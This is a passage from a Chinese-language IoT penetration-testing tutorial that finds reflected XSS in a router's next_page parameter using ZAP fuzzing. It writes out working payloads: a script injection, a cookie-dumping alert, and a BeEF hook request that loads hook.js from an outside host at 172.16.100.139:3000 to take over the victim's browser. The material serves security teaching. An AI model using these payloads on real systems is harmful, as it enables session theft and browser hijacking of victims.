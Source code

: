 使用 XSS 负载的模糊参数，我们可以手动注入 XSS 负载并观察响应，但我们也可以利用诸如 SecLists 之类的已知 XSS 负载与单词列表，以加快发现过程。

1.  根据 ZAP 中的模糊结果，我们在 HTTP 响应中看到了一些反射参数，如下图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/23539223-f5c8-4c98-9e52-1b719528c184.png)

1.  我们可以看到`next_page`参数反映了我们精确的模糊输入值(`<script>(document.head.childNodes[3].text)</script>`)，如下 HTTP 响应片段所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/ba67e021-85c2-4b02-bfb1-129fbfaa864d.png)

1.  让我们手动在浏览器中输入这个反射参数，观察其响应：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/5c82cc2b-d804-4f6d-aa3c-7e240e775c8b.png)

根据响应，我们似乎破坏了一些 JavaScript 代码。这可能与负载的编码或可能的长度有关。我们需要调整编码字符并审查 JavaScript 代码，确保我们的代码开始或结束一个可能正在使用的函数。

1.  使用基本的警报 XSS 负载进行发现时，请记住在`start_apply.html`源代码中，参数值的形式如下：

```
'"+next_page+"'
```

1.  让我们使用 ZAP 的编码器/解码器工具来调整我们的基本 XSS 负载，如下所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/f2e101c9-017b-42b6-87b1-7653dc17fec7.png)

1.  通过 Web 界面将 URL 编码值插入易受攻击的参数，现在我们的警报代码成功执行。最好先尝试在警报框中插入一个整数，看看我们的代码是否先执行，然后再深入研究更复杂的 XSS 负载：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/e4fa7004-3f96-47af-97b7-4c17d1fb1c83.png)

1.  现在让我们更进一步，使用以下负载在警报框中转储任何 cookie：

```
'%2balert(document.cookie)%2b'
```

1.  现在我们可以看到在我们的浏览器中呈现出`IoTCookbook=1234567890`的 cookie 值，使用基本的`alert(document.cookie)`负载：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/iot-pentest-cb/img/5917c0dd-44e6-4ceb-98bc-7d0962aa5415.png)

太棒了！我们现在知道我们可以在这一点上进行一些基本的 XSS 负载。幸运的是，我们还没有遇到任何字符限制或任何类型的过滤。让我们看看我们是否可以造成更多的损害，并将 BeEF 钩负载插入到易受攻击的参数中。毕竟，警报框会带来什么风险呢？

# 使用 BeEF XSS 负载的介绍

BeEF 是一个利用 Web 浏览器和客户端攻击向量的工具，通过易受攻击的应用程序参数和社会工程技术在受害者环境中钩取一个或多个 Web 浏览器。当受害者执行了它的负载时，BeEF 将钩取一个或多个 Web 浏览器，然后可以利用多个命令模块进行进一步的利用。接下来的部分将扩展我们发现的 XSS 漏洞，使其执行 BeEF 钩，并介绍一些基本用法。

BeEF 很强大，展示了 XSS 的影响力：

1.  现在我们已经演示了基本的 XSS 负载执行，我们将尝试使用类似格式的 BeEF 负载进行`GET`请求：

```
http://192.168.1.1/start_apply.htm?next_page= '+<script src=//172.16.100.139:3000/hook.js></script>+' 
```
